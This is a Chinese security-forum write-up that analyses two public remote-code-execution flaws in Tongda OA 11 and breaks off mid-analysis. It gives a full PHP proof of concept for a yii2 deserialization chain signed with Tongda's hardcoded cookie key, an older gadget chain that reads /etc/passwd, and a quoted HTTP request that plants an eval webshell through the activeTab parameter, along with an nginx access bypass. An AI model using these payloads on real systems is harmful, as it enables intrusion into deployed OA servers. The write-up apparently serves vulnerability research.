# 奇安信攻防社区 -【Web 实战】对通达 OA11 前台 RCE 的两个漏洞的分析与调优

### 【Web 实战】对通达 OA11 前台 RCE 的两个漏洞的分析与调优

对通达 OA11 前台 RCE 的两个漏洞的分析与调优，本文所涉及漏洞均为互联网上已公开漏洞，仅用于合法合规用途，严禁用于违法违规用途。

### 1\. 前台反序列化漏洞

#### 前言

由于已经有师傅对于如何触发反序列化的方法和代码进行了说明，这里我也就不拾人牙慧，主要谈一谈这里反序列化链的挖掘。具体的触发流程可以参考[https://mp.weixin.qq.com/s/nOQuqt\\\_mO0glY-KALc1Xiw](https://mp.weixin.qq.com/s/nOQuqt%5C_mO0glY-KALc1Xiw)  
目前网上也出现了一些分析反序列化链的分析，但是目前我看到的大部分分析走的反序列化链都是通达 OA 自己实现了一个 redis 的 Connection 类进行攻击的 poc。但是这个链，我个人认为是不够完善的。因为首先这个链设计到了 socket 的连接问题，可能会有一定的不稳定性和延迟。其次这条链的序列化数据比较长。那么能不能通过 yii2 框架的自带的链子进行更加稳定的反序列化链的触发呢。先说答案可以，并且 GitHub 上也已经有了链子的构造。下面进行整条链子的分析流程分享。

#### 确定 yii 版本

首先通过参考师傅的审计思路，我们可以发现这里的 yii2 是 2.0.13-dev。

  
看到是 yii2 的时候我就想着去偷个懒，毕竟这个框架之前爆出了很多反序列化的问题，到网上搜了一圈 poc，发现没一个能打通的。这里我发现了一个问题，网上的 poc 基本上如下：

```php
<?php
namespace Faker{

    class DefaultGenerator{
        protected $default ;
        function __construct($argv)
        {
            $this->default = $argv;
        }
    }

    class ValidGenerator{
        protected $generator;
        protected $validator;
        protected $maxRetries;
        function __construct($command,$argv)
        {
            $this->generator = new DefaultGenerator($argv);
            $this->validator = $command;
            $this->maxRetries = 99999999;
        }
    }
}

namespace Codeception\Extension{
    use Faker\ValidGenerator;
    class RunProcess{
        private $processes = [] ;
        function __construct($command,$argv)
        {
            $this->processes[] = new ValidGenerator($command,$argv);
        }
    }
}

namespace {
    use Codeception\Extension\RunProcess;
    $exp = new RunProcess('system','cat /etc/passwd');
    echo(base64_encode(serialize($exp)));
    exit();
}
```

在这里我们会发现一个问题，就是基本上都用到了 Faker 的这个 namespace 下的类，但是在 yii2 的核心框架不含任何拓展的情况下这个命名空间的相关文件是没有的。所以基本上网上的 poc 全部都失效了。这边就需要我们自己去挖掘一条 yii2 的反序列化链。去 GitHub 上下载了对应的 yii2 的版本，由于没发现标签是 yii2.0.13-dev 的这个版本，所以就下载了 yii2.0.13 的最新的一个版本。



#### 反序列化链的审计

老规矩，在没有后续操作下的反序列化的可利用的起始魔术方法基本上是\_\_destruct，yii2 也很简单明了，也就只有一个类含有\_\_destruct

  
在 BatchQueryResult 类中的\_\_destruct 作为反序列化的起点，这个也和网上大多数的链子的起点一样。往下走，可以看到\_\_destruct 中调用了 reset，而 reset 函数中则出现了反序列化中很喜欢遇到的一个写法。

```php
$this->_dataReader->close();
```

这个写法有两种利用的跳转方式，调用其它类的 close 方法或者调用其它未实现 close 方法的类的\_\_call 方法。这里我一开始的想法是跟进了\_\_call 方法，因为很多时候\_\_call 方法中都会采用 call\_user\_func 的形式进行调用，很有可能存在代码执行。但是这里也发现了问题，唯一一个调用了 call\_user*func，而不是没有其它任何操作的，直接抛出错误的是 yii\\base\\Component 的\\*\_call 方法长这样。

```php
    public function __call($name, $params)
    {
        $this->ensureBehaviors();
        foreach ($this->_behaviors as $object) {
            if ($object->hasMethod($name)) {
                return call_user_func_array([$object, $name], $params);
            }
        }
        throw new UnknownMethodException('Calling unknown method: ' . get_class($this) . "::$name()");
    }
```

这明摆着也只能调用其它类的 close 方法，所以下一步就是查看别的类的 close 方法是不是可以有可以利用的地方。

一开始进行审计的是 yii\\db\\Connection 类中的 close，因为这个 close 方法中可以触发\_\_get 和\_\_tostring 的魔术方法

```php
    public function close()
    {
        if ($this->_master) {
            if ($this->pdo === $this->_master->pdo) {
                $this->pdo = null;
            }

            $this->_master->close();
            $this->_master = false;
        }

        if ($this->pdo !== null) {
            Yii::trace('Closing DB connection: ' . $this->dsn, __METHOD__);
            $this->pdo = null;
            $this->_schema = null;
            $this->_transaction = null;
        }

        if ($this->_slave) {
            $this->_slave->close();
            $this->_slave = false;
        }
    }
```

但是再对\_\_get 的方法进行阅读后，发现暂时没有能进一步利用的点，于是对\_\_toString 方法进行审计。这里我一开始是没有发现可以继续利用的地方。但是后来在 PHPGGC 的 gadget 中发现了 yii2 的相应反序列化链，同时在群里师傅的帮助下，弄明白了这条链的触发逻辑。

这里首先是从触发 yii\\db\\cubrid\\ColumnSchemaBuilder 的\_\_toString 入手。

```php
    public function __toString()
    {
        switch ($this->getTypeCategory()) {
            case self::CATEGORY_PK:
                $format = '{type}{check}{comment}{append}{pos}';
                break;
            case self::CATEGORY_NUMERIC:
                $format = '{type}{length}{unsigned}{notnull}{unique}{default}{check}{comment}{append}{pos}';
                break;
            default:
                $format = '{type}{length}{notnull}{unique}{default}{check}{comment}{append}{pos}';
        }

        return $this->buildCompleteString($format);
    }
        protected function getTypeCategory()
    {
        return isset($this->categoryMap[$this->type]) ? $this->categoryMap[$this->type] : null;
    }
```

我们可以发现这里上来是调用了 getTypeCategory，而 getTypeCategory 中则对 categoryMap 进行了类似数组的方式取值。这里也是我一开始忽略的点，我上来觉得这个可能就最多能触\_\_get 方法，但是\_\_get 方法又正如前面所说的找不到特别好的触发地方。但是这里其实是我基础知识不过关导致的，要将类作为数组的方式取值，是要实现特定接口才行，而非某种魔术方法。在 php 的文档中，我们可以发现 ArrayAccess 正是需要被实现的接口。

  
在 yii2 的框架中有个 ArrayCache 的类继承自 Cache，而 Cache 类则有对 ArrayAccess 接口进行实现。




我们可以发现这里上来是调用了 getTypeCategory，而 getTypeCategory 中则对 categoryMap 进行了类似数组的方式取值。这里也是我一开始忽略的点，我上来觉得这个可能就最多能触\_\_get 方法，但是\_\_get 方法又正如前面所说的找不到特别好的触发地方。但是这里其实是我基础知识不过关导致的，要将类作为数组的方式取值，是要实现特定接口才行，而非某种魔术方法。在 php 的文档中，我们可以发现 ArrayAccess 正是需要被实现的接口。


在 yii2 的框架中有个 ArrayCache 的类继承自 Cache，而 Cache 类则有对 ArrayAccess 接口进行实现。  


再看 Cache 类中对 offsetGet 的实现

```php
    public function offsetGet($key)
    {
        return $this->get($key);
    }
    public function get($key)
    {
        $key = $this->buildKey($key);
        $value = $this->getValue($key);
        if ($value === false || $this->serializer === false) {
            return $value;
        } elseif ($this->serializer === null) {
            $value = unserialize($value);
        } else {
            $value = call_user_func($this->serializer[1], $value);
        }
        if (is_array($value) && !($value[1] instanceof Dependency && $value[1]->isChanged($this))) {
            return $value[0];
        }

        return false;
    }
    public function buildKey($key)
    {
        if (is_string($key)) {
            $key = ctype_alnum($key) && StringHelper::byteLength($key) <= 32 ? $key : md5($key);
        } else {
            $key = md5(json_encode($key));
        }

        return $this->keyPrefix . $key;
    }
    protected function getValue($key)
    {
        if (isset($this->_cache[$key]) && ($this->_cache[$key][1] === 0 || $this->_cache[$key][1] > microtime(true))) {
            return $this->_cache[$key][0];
        }

        return false;
    }
```

这里可以看到有 call\_user\_func 的调用，get 的参数$key 的值是由 getTypeCategory 中的$this->type 提供的，这个是完全可控的，而 buildKey 对于全是字母数字的长度 32 以下的则不做任何修改。getValue 中的$this->\_cache 也是完全可控的，所以这也就说明 get 函数中的$value 可控，并且在 call\_user\_func 中的$this->serializer 也是在反序列化的时候完全可控，这样这里的 call\_user\_func 就导致了任意代码执行。由于目标是通达 OA，php 版本为 php5，这里用$this->serializer 赋值为 assert 就可以类似 eval 的进行任意代码执行。

#### poc

下面是完整的 poc

```php
<?php
//仅用于安全研究与授权测试，使用此漏洞造成的任何攻击影响均与本文作者无关。
namespace yii\db {
    class ColumnSchemaBuilder {
        protected $type = 'x';
        public $categoryMap;

        function __construct($categoryMap) {
            $this->categoryMap = $categoryMap;
        }
    }

    class Connection {
        public $pdo = 1;

        function __construct($dsn) {
            $this->dsn = $dsn;
        }
    }

    class BatchQueryResult {
        private $_dataReader;

        function __construct($dataReader) {
            $this->_dataReader = $dataReader;
        }
    }
}

namespace yii\caching {
    class ArrayCache {
        public $serializer;
        private $_cache;

        function __construct($function, $parameter) {
            $this->serializer = [1 => $function];
            $this->_cache = ['x' => [$parameter, 0]];
        }
    }
}
namespace{
    $function = 'var_dump';
    $parameter = 123;

    $cache = new \yii\caching\ArrayCache($function, $parameter);
    $csb = new \yii\db\ColumnSchemaBuilder($cache);
    $conn = new \yii\db\Connection($csb);
    $query = new \yii\db\BatchQueryResult($conn);
    $data=(serialize($query));
    $data=hash_hmac('sha256', $data, 'tdide2').$data; //通达 OA 的 cookie 反序列化校验
    echo urlencode($data);
}
```

### 2\. 前台代码注入漏洞

#### 前言

在一次众测中，遇到了一个通达 OA11，虽然到最后也没有成功拿下权限，但是网上查找到的一个通达 OA 的前台 RCE 的 poc，让我产生了兴趣，并进行了深入的分析。poc 的来源是[https://cloud.tencent.com/developer/article/2200049](https://cloud.tencent.com/developer/article/2200049) 。

#### 对 poc 的简要分析与猜测

网上给出的 POC 如下：

```php
GET /general/appbuilder/web/portal/gateway/getdata?activeTab=%e5',1%3d>fwrite(fopen("D:\MYOA\webroot\general\test1.php","w"),"<?php @eval(next(getallheaders()));"))%3b/*&id=19&module=Carouselimage HTTP/1.1
Host: 192.168.121.147:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=7n7nl11mo8hrkp03hvtj8sjti0; KEY_RANDOMDATA=5711
Upgrade-Insecure-Requests: 1
```

然后文章给出的返回包是这样的

  
注意 activeTab 那一栏的对应的像乱码一样的中文，再结合 poc 中这个很像是宽字节注入中出现的%e5，会很让人联想到是不是这一栏带入了 sql 进行了数据查询，从而导致了 sql 注入最终由于视图渲染等原因导致了任意代码执行。但是仔细思考后也觉得不对，因为即使是宽字节的注入，这边虽然进行了逃逸，但是也未对后续内容进行闭合和也没有对数据添加单引号表示为字符串。而且在本地进行测试的时候，也发现了这一步就是在控制器中达成的代码执行和视图关系不大。

#### 源码分析

由于这个 poc 实在没法一眼看出来漏洞的出处，下面对源码进行分析。首先先看一下目录结构

  
可以确定是 MVC 架构无疑了。

  
index.php 可以发现使用的是 yii2 的框架。由于我们分析的是前台 RCE，所以先看鉴权，即我们能访问到的路由。

```php
    else {
        $url = $_SERVER["REQUEST_URI"];
        $strurl = substr($url, 0, strpos($url, "?"));

        if (strpos($strurl, "/portal/") !== false) {
            if (strpos($strurl, "/gateway/") === false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
            else if (strpos($strurl, "/gateway/saveportal") !== false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
            else if (strpos($url, "edit") !== false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
            else if (strpos($url, "uploadfile") !== false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
            else if (strpos($url, "uploadportalfile") !== false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
            else if (strpos($url, "uploadpicture") !== false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
            else if (strpos($url, "dologin") !== false) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
        }
        else if (strpos($url, "/appdata/doprint") !== false) {
            $_GET["csrf"] = urldecode($_GET["csrf"]);
            $b_check_csrf = false;
            if (!empty($_GET["csrf"]) && preg_match("/^\{([0-9A-Z]|-){36}\}$/", $_GET["csrf"])) {
                $s_tmp = __DIR__ . "/../../../../logs/appbuilder/logs";
                $s_tmp .= "/" . $_GET["csrf"];

                if (file_exists($s_tmp)) {
                    $b_check_csrf = true;
                    $b_dir_priv = true;
                }
            }

            if (!$b_check_csrf) {
                header("Location:/index.php");
                sess_close();
                exit();
            }
        }
        else {
            header("Location:/index.php");
            sess_close();
            exit();
        }
    }
```

有两个路由的分支，一个是 portal，另一个是/appdata/doprint。

/appdata/doprint要访问的话需要/appbuilder/logs底下存在一个类似guid的文件，先来看看这个文件的生成可不可以未授权，发现这个文件的写入控制是在general\\appbuilder\\modules\\appcenter\\views\\Appdata\\print.php文件，访问发现：

  
尝试了一下常规的 bypass 无果，后来查看 nginx.conf，发现该目录已被屏蔽，虽然这种路由的写法理论上是可以进行大小写绕过访问的，但是不清楚为什么即使用了大小写仍然出现了 403。

```ngi
        location  ^~ /general/appbuilder/modules/ {
            deny all;
        }
```

即使删掉这项进行访问也会因为被前面的规则卡住，从而引发访问路由不存在的问题。不过这里倒是可以采用大小写进行绕过并成功访问到 print.php。

```php
        location /general/appbuilder/ {
            index  index.php index.html index.htm;
            try_files $uri $uri/ @rewrite;
            rewrite ^/general/appbuilder/(.*)$ /general/appbuilder/web/index.php?$args;
        }
```

而且再看 print.php 访问时由于需要一个对象，而这是无法提供的，所以会报错 500，无法进行文件的写入生成，综上，这个路由是无法利用的。

继续对上面的路由访问控制进行分析，可以发现首先要求的控制器是 portal 下的 gateway，可能会有人问到这边是否能通过 url 编码啥的进行绕过，但是在文件的开头就用正则表达式对路由进行了过滤，所以也是不存在绕过的。

```php
if (!preg_match("/^(\/[A-Za-z0-9|-]+[\/]?)+(\?[\s\S]*)?$/", $_SERVER["REQUEST_URI"])) {
    echo "请求路径不符合要求";
    exit();
}
```

geteway 控制器下一共有 19 个可访问的 action，去除类似 login 和上面鉴权的模块，可访问到的路由如下：

```php
actionGetassembly
actionGetcustomcolumn
actionGetportal
actionPagerelation
actionPages
actionGetpage
actionGetdata
actionGetclassifydata
actionGetpicturelist
actionGetpicturesrc
actionGetlogin
actionDetailspage
actionMore
actionGetworksize
```

去除 500，用 yii2 框架进行 sql 查询不可能存在 sql 注入，和没有参数传入无法利用的路由，发现 actionGetdata 和 actionMore 存在漏洞的可能性是最大的，正好这次 rce 的问题也出在了 actionGetdata 上面，我们来跟进 actionGetdata 进入深入查看。

跟着 poc 进行分析，会进入到该 action 的下例代码中，因为这里的 module 给的是 Carouselimage

```php
                $component = new modules\portal\models\PortalComponent();
                $this->dataBack = $component->GetData($id, $module, $activeTab, $curnum, $pagelimit, $timetype, 1, $starttime, $endtime, $view);
                $this->dataBack = modules\appdesign\models\AppUtils::toUTF8($this->dataBack);
                $redis_data["data"] = modules\portal\controllers\json_encode($this->dataBack);
                $redis->hmset("portal:portal_" . $portal_id . ":component_id:" . $id, $redis_data);
                $redis->expire("portal:portal_" . $portal_id . ":component_id:" . $id, 2592000);
                return $this->dataBack;
```

从这里开始，我们要开始关注最终导致任意代码执行的 activeTab 参数，目前 activeTab 的值未进行任何修改

跟进 PortalComponent 的的 Getdata 函数进行查看

```php
    public function GetData($id, $module, $activeTab, $curnum, $pagelimit, $timetype, $onepage, $starttime, $endtime, $view, $keyword)
    {
        $data = self::findOne(array("id" => $id));

        if (modules\portal\models\is_object($data)) {
            $source = $data->source;
            $attribute = $data->attribute;
            $comtype = (string) $data->comtype;
            $open_mode = $data->open_mode;
            $oaname = $data->oaname;
            $custom_json = $data->custom_json;
            $rss_link = $data->rss_link;
            $link = $data->link;
            $catidstr = $data->catidstr;
            $mid = $data->mid;
            $rets = modules\portal\models\PortalWorkbench::findOne(array("id" => $mid));

            if (modules\portal\models\is_object($rets)) {
                $type = $rets->type;
            }

            $this_array = array("id" => $id, "source" => $source, "attribute" => $attribute, "comtype" => $comtype, "open_mode" => $open_mode, "oaname" => $oaname, "custom_json" => $custom_json, "rss_link" => $rss_link, "link" => $link, "catidstr" => $catidstr, "activeTab" => $activeTab, "curnum" => $curnum, "pagelimit" => modules\portal\models\intval($pagelimit), "timetype" => $timetype, "type" => $type, "onepage" => $onepage, "starttime" => $starttime, "endtime" => $endtime, "view" => $view, "mid" => $mid, "keyword" => $keyword);

            if ($source == "custom_link") {
                $url = array("url" => $link);
                $data = array("page_total" => "", "total_nums" => "", "curnum" => "", "pagelimit" => "", "open_mode" => $open_mode, "activeTab" => $activeTab, "data_sources" => $source, "data" => $url);
            }
            else {
                if (!$rss_link && ($source == "rss_data")) {
                    return array("status" => 0, "msg" => "rss地址不可为空");
                }

                $data = Yii::$app->getModule("portal")->designComponent->data_analysis($module, $this_array);
            }
        }
        else {
            return modules\appdesign\models\AppUtils::error(modules\portal\models\_("组件数据为空"));
        }
```

首先先对 id 进行了查询，由于这是个 mvc 框架所以，在 mysql 中对应的数据表就是该类的类名，去数据库中看下 poc 中的 id 为 19 所对应的内容

  
由于 source 不是 custom\_link，所以直接进入后续的 data\_analysis 函数。

该函数对 comtype 进行了判断，并执行了相应 module 的 get\_data 函数

```php
    public function data_analysis($module, $thisarray)
    {
        $classname = $module;
        $classname = "App" . modules\portal\components\ucfirst($classname);

        if ($thisarray["comtype"] == "0") {
            $class = "\app\modules\portal\models\\function_components\\" . $classname;
            $obj = new $class();
            $ret = $obj->get_data($thisarray);
        }
        else if ($thisarray["comtype"] == "1") {
            $class = "\app\modules\portal\models\\free_components\\" . $classname;
            $obj = new $class();
            $ret = $obj->get_data($thisarray);
        }
        else if ($thisarray["comtype"] == "2") {
            $class = "\app\modules\portal\models\website_components\\" . $classname;
            $obj = new $class();
            $ret = $obj->get_data($thisarray);
        }

        return $ret;
    }
```

注意到我们调用的 Carouselimage 是位于 AppCarouselimage.php，而该文件是在 free\_components 下面，所以这里的 comtype 是 1，事实上在数据库中也确实这样。其实这里我们也就发现了，只要 id 对应的 source 不是 custom\_link，然后对应的 comtype 为 1，都能走到 poc 需要类的 get\_data，下面对 Carouselimage 中的 get\_data 进行分析。

```php
    public function get_data($thisarray)
    {
        $source = $thisarray["source"];
        $id = $thisarray["id"];
        $portal_id = modules\portal\models\PortalComponent::GetPortalbyComponent($id);
        $thisarray["portal_id"] = $portal_id;

        if ($source == "serv_data") {
            $this->dataBack = $this->get_serv_data($thisarray);
        }
        else if ($source == "cot_manage") {
            $this->dataBack = $this->get_cot_manage($thisarray);
        }
        else if ($source == "custom_page") {
        }
        else if ($source == "custom_col") {
            $this->dataBack = $this->get_custom_col($thisarray);
        }
        else if ($source == "custom_link") {
        }
        else if ($source == "rss_data") {
        }

        $this->dataBack["data_sources"] = ($thisarray["source"] ? $thisarray["source"] : "");
        return $this->dataBack;
    }

    public function get_serv_data($thisarray)
    {
        include_once "inc/utility_file.php";
        .........
        .........
        .........
        $dataBacks = array("page_total" => $page_total, "total_nums" => $total_nums, "curnum" => $curnum, "pagelimit" => $pagelimit, "open_mode" => (string) $open_mode, "activeTab" => $activeTab, "show_title" => $json_data["show_title"], "show_dots" => $json_data["show_dots"], "speed" => $json_data["speed"], "data" => $this->dataBack);
        return $dataBacks;
    }
```

在这边注意到，其中的 activeTab 也从来没被修改过。在往后继续，跟进返回到 gateway 控制器中的 actionGetdata，注意到了之后的这行代码：

